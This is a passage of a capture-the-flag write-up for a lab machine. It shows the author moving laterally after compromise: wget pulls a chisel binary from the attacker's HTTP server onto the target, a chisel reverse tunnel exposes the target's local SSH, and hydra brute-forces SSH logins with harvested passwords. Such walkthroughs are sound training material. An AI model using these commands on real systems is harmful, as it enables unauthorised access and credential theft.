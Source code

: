 ```shell
udp        0      0 10.10.255.255:137       0.0.0.0:*                           -                   
udp        0      0 10.10.207.207:137       0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:137             0.0.0.0:*                           -                   
udp        0      0 10.10.255.255:138       0.0.0.0:*                           -                   
udp        0      0 10.10.207.207:138       0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:138             0.0.0.0:*                           -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.207.207:68        0.0.0.0:*                           -
```

- Found local loopback SSH service

Hmm... Since we now have a list of passwords, we can **port forwarding the SSH service**, and brute force those 2 system users' password.

To do so, I'll use `chisel`:

- Transfer the `chisel` binary:

```shell
┌[root♥siunam]-(/opt/chisel)-[2023.01.20|18:10:31(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

www-data@incognito:/var/www/html/dev$ wget http://10.9.0.253/chiselx64 -O /tmp/chisel;chmod +x /tmp/chisel
```

- Setup a server listener:

```shell
┌[root♥siunam]-(/opt/chisel)-[2023.01.20|18:11:36(HKT)]
└> ./chiselx64 server --reverse -p 8888
2023/01/20 18:11:38 server: Reverse tunnelling enabled
2023/01/20 18:11:38 server: Fingerprint SDQlJxI8vbgkcy0Zq9Xk4YUPU0/jNbPv0b+HHn5pS7E=
2023/01/20 18:11:38 server: Listening on http://0.0.0.0:8888
```

- Connect to the server:

```shell
www-data@incognito:/var/www/html/dev$ /tmp/chisel client 10.9.0.253:8888 R:2222:127.0.0.1:22
2023/01/20 10:12:19 client: Connecting to ws://10.9.0.253:8888
2023/01/20 10:12:20 client: Connected (Latency 214.984362ms)
```

**Now, we can brute force the SSH service via `hydra`:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|18:13:41(HKT)]
└> hydra -L user.txt -P pass.txt ssh://127.0.0.1 -s 2222
[...]
[2222][ssh] host: 127.0.0.1   login: ArthurMorgan   password: {Redacted}
```
